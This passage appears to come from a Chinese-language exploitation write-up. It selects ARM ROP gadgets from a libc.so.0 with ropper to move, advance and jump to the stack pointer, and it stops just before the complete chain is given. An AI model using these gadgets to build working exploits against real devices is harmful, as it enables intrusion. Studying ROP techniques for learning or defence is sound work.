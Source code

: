 1. 转移sp到r5的gadget，在转移之后要add sp并且一顿pop，所以暂时放弃r5作为转移sp的选择
2. r7没有直接自加的gadget，故放弃

所以目标还剩r0和r1，找出看着比较有潜力的几条：

```c
r0自加的：
0x0003f4f8: add r0, r0, #0x14; mov r1, r4; blx r5; 
0x00052328: add r0, r0, #0x80; pop {r4, pc}; 

sp加立即数给到r1：
0x0002d260: add r1, sp, #0x10; blx r3; 
```

### 蹦到sp

所以最后要蹦到r1或者r0，在ret2system的gadget中，有一条：

```c
0x00041304: mov r2, r0; mov r0, sp; blx r2; 
```

这就相当于蹦到r0，那么我们找一下有没有更直接蹦到r1和r0的呢：

```c
➜  ropper --file ./libc.so.0 --nocolor --search "b?? r0"
0x00048414: blx r0; 

➜  ropper --file ./libc.so.0 --nocolor --search "b?? r1"
```

故有r0看起来最方便，当然也可以通过迂回的方式蹦到r1，但是现在看起来没有特别的必要

### 完整ROP链

经过选定，每一步都有两种还比较合适的方案：

> 转移sp

```c
0x00041308: mov r0, sp; blx r2; 
0x00037884: mov r0, sp; blx r3; 
```

> 增加sp

```c
0x0003f4f8: add r0, r0, #0x14; mov r1, r4; blx r5; 
0x00052328: add r0, r0, #0x80; pop {r4, pc}; 
```

> 蹦到sp

```c
0x00048414: blx r0; 
0x00041304: mov r2, r0; mov r0, sp; blx r2; 
```

选择每个里面看起来约束最少，难度最低的：
